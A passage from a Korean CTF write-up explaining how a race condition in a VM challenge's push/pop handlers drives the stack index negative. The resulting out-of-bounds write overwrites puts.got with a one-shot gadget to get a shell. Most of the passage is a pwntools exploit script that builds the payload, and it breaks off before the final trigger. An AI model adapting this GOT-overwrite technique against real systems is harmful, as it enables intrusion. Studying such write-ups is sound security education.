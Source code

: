 `push_handler` 와 `pop_handler` 는 각각 `g_stack_idx` 가 767보다 작거나 같은지, 0이 아닌지만 검사합니다. 따라서 일단  `g_stack_idx` 의 값을 음수로 만들고 나면 연속된 `POP` opcode 등으로 얼마든지 값을 감소시켜, `stack` 보다 낮은 주소의 메모리에 대한 자유로운 읽기와 쓰기가 가능해집니다. `puts.got` 는 `stack` 보다 낮은 주소에 있고 `puts` 라이브러리 함수의 주소가 저장되어 있으므로, `SUB` opcode 등을 이용하여 oneshot 가젯의 주소로 변조하면 셸을 획득할 수 있습니다.

다음은 위의 내용을 바탕으로 작성한 익스플로잇 코드입니다. 37행은 `CLEAN` , 2번의 `PUSH` , 3번의 `POP` 을 반복하여 `g_stack_idx` 의 값이 음수가 되도록 합니다. 46행은 블로킹 방식의 `POP` 을 반복하여 `puts.got` 를 참조할 수 있도록 `g_stack_idx` 를 감소시키는데, 반복 횟수는 실행 환경에 따라 시행착오를 거쳐야 합니다. 52행은 `SUB` opcode를 사용해 `puts.got` 에 oneshot 가젯의 주소를 대입합니다. 익스플로잇 코드를 성공할 때까지 수차례 실행하면 셸을 획득할 수 있습니다.

```python
#!/usr/bin/python3
from pwn import *

r = remote("localhost", 7777)
# r = process("./isolated")

def pop():
    return p8(1)


def __opcode(op, pop1, pop2, args=[0, 0]):
    s = p8(op) + (p8(0x55) if pop1 else p8(0x66) + p32(args[0]))
    s += (p8(0x55) if pop2 else p8(0x66) + p32(args[1]))

    return s


def sub(pop1, pop2, args=[0, 0]):
    return __opcode(3, pop1, pop2, args)


def cmp(pop1, pop2, args=[0, 0]):
    return __opcode(6, pop1, pop2, args)


def clean():
    return p8(9)


def log(pop, arg=0):
    return p8(10) + (p8(0x55) if pop else p8(0x66) + p32(arg))


def main():
    # start race
    payload = log(False, 1)
    for i in range(10):
        payload += clean()
        payload += sub(False, False, [0, 0])
        payload += sub(False, False, [0, 0])
        payload += pop()
        payload += pop()
        payload += pop()

    # set stack_idx to -59
    for i in range(27):
        payload += cmp(True, True)
    for i in range(10):
        payload += sub(True, False, [0, 0])

    # set puts.got to oneshot
    payload += sub(True, False, [0, 0x3166e])

    # trigger oneshot
```